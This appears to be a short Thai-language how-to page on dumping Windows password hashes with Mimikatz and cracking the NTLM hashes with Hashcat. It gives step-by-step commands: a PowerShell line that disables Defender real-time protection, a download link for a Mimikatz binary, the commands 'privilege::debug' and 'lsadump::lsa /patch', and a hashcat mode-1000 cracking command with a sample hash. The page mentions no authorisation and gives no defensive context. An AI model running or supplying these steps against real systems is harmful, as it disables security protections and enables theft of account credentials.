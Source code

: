 # How to dump password on WindowsOS via Minikaz

Step 1: อันดับแรกจะต้องทำการปิด Antivirus บน Windows ก่อน โดยเราสามารถเข้าไปยัง Powershell ด้วยสิทธิ **Admin** แล้วพิมพ์คำสั่งดังนี้

```sh
# Disable Realtime Protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```
Step 2: จากนั้นเข้าไป Download ไฟล์ Minikatz.exe ได้ตาม 
[Link Download Minikaz](https://github.com/ParrotSec/mimikatz/tree/master/x64) ได้เลย

Step 3: Run Minikatz ด้วยสิทธิ Admin (ไม่ต้องตกใจหากมีการเตือนจาก Windows)
![](/KB/img/minikaz1.png)

Step 4: รันคำสั่ง

```sh
# ตรวจสอบว่าได้ผลลัพธ์เป็น "Privilege '20' ok" หรือไม่ หากไม่ได้ให้รันด้วยสิทธิ Admin
privilege::debug

# Dump hashes
lsadump::lsa /patch
```

Step 5: Download Hashcat [Link Download Hashcat](https://hashcat.net/hashcat/) 

```sh
# ตรวจสอบ Hashcat 
hashcat --help 
# เลือกใช้ Mode 1000 ซึ่งเป็นการ Crack NTLM Hash 
hashcat -m 1000 <hash> rockyou.txt --show

# Example
#hashcat -m 1000 7ce21f17c0aee7fb9ceba532d0546ad6 rockyou.txt --show
```

![](/KB/img/minikaz2.png)

Step 6: ถ้า Crack สำเร็จเราจะได้รหัสผ่านกลับมาตามภาพ ซึ่งความเร็วจะขึ้นอยู่กับประสิทธิภาพของเครื่องที่ใช้ Crack และสามารถใช้ Graphic Card ประมวลผลได้ 

![](/KB/img/minikaz3.png)


**Powered By** : 
Icesuntisuk 
๙ เม.ย.๖๗